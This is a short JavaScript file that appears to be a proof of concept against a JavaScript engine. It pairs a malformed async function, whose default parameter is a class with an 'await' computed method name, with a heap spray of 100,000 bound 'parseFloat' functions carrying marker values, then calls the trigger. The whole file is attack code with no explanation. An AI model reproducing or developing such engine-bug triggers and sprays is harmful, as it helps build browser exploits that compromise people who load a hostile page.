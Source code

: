 
async function trigger(a = class b {
    [await 1]() {
    }
}) {
}

let spray = [];
for (let i = 0; i < 100000; i++) {
    spray.push(parseFloat.bind(1, 0x1234, 0x1234, 0x1234, 0x1234));
}

trigger();

